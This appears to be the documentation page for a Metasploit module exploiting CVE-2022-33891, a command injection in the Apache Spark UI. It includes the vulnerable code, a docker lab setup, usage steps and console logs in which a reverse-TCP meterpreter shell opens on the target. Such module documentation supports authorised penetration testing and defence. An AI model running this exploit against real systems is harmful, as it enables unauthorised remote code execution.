 ## Vulnerable Application

This module exploits a remote code execution vulnerability (CVE-2022-33891) of Apache Spark.
The Apache Spark UI offers the possibility to enable ACLs via the configuration option `spark.acls.enable`.
With an authentication filter, this checks whether a user has access permissions to view or modify the application.
The permission check is coded using a bash command shell and the unix id command that allows a malicious shell command injection.

Ironically the `spark.acls.enable` configuration setting is designed to improve the security access within the Spark application,
but unfortunately this configuration setting triggers the vulnerable code below.

```
private def getUnixGroups(username: String): Set[String] = {
    val cmdSeq = Seq("bash", "-c", "id -Gn " + username)
    // we need to get rid of the trailing "\n" from the result of command execution
    Utils.executeAndGetOutput(cmdSeq).stripLineEnd.split(" ").toSet
    Utils.executeAndGetOutput(idPath ::  "-Gn" :: username :: Nil).stripLineEnd.split(" ").toSet
  }
}
```

This will result in arbitrary shell command execution as the user `Spark`.

This affects Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

Installing a vulnerable version of Apache Spark to test this vulnerability is quite easy.

To set the server up use the following docker-compose.yml file and follow the steps below:
```
version: '2'

services:
  spark:
    image: docker.io/bitnami/spark:3.1.1
    environment:
      - SPARK_MODE=master
      - SPARK_RPC_AUTHENTICATION_ENABLED=no
      - SPARK_RPC_ENCRYPTION_ENABLED=no
      - SPARK_LOCAL_STORAGE_ENCRYPTION_ENABLED=no
      - SPARK_SSL_ENABLED=no
    ports:
      - '8080:8080'
```

1. Create the docker-compose.yml in your preferred directory and run `docker-compose up`. Let the container spin up.
1. In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
1. In the container bash session, enter: `echo "spark.acls.enable true" >> conf/spark-defaults.conf`
1. cat the contents of spark-defaults.conf to make sure it looks good.
1. Exit the interactive bash shell and Ctrl-C your docker-compose process.
1. Once the containers have powered down gracefully, rerun `docker-compose up`

Once the server and application is up, it's vulnerable and you can access it on port 8080 for testing...

## Verification Steps

1. `use exploit/linux/http/apache_spark_rce_cve_2022_33891`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell or meterpreter as the `spark` user.

## Options

No specific options to be set.

## Scenarios

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit with spark.acls.enable set to true

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[*] Perform sleep test of 10 seconds...
[+] The target is vulnerable. Sleep was around 10 seconds [10.033867019]!
[*] Exploiting...
[*] Sending stage (40164 bytes) to 192.168.100.43
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.100.43 - Meterpreter session 3 closed.
[*] Sending stage (40168 bytes) to 192.168.100.43
[*] Meterpreter session 4 opened (192.168.100.7:4444 -> 192.168.100.43:62618) at 2022-08-26 10:49:46 +0000

meterpreter > sysinfo
Computer     : 7a26a9fb7ce3
OS           : Linux 5.10.104-linuxkit #1 SMP Thu Mar 17 17:08:06 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: spark
```

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit WITHOUT the spark.acls.enable option

Note: This version is vulnerable, however the `spark.acls.enable` option is not set, hence the vulnerable code will not be triggered.
Response on POST payload request will be 200 instead of 403.

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(inux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The 192.168.100.43:8080 did not respond a 403 response. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) >
```

## Limitations
The check to determine if the application is vulnerable is based on a 403 response and the successful execution of a `sleep 10` command.
The exploit is a blind command injection, so there is nothing reflected back on the page during the command execution.
The sleep command execution in this case is therefore a pretty safe bet to check if the command is succesfully executed.
This test works fine a LAN based setup where the timing for execution will be around 10 seconds.

However, in a WAN based scenario, additional delays can be introduced such as network latency.
To avoid false/negatives, the upper range is set to 14 seconds as buffer and contingency for unforeseen delays.

Credits goes to HuskyHacks that used this test in his [POC](https://github.com/HuskyHacks/cve-2022-33891) on GitHub.
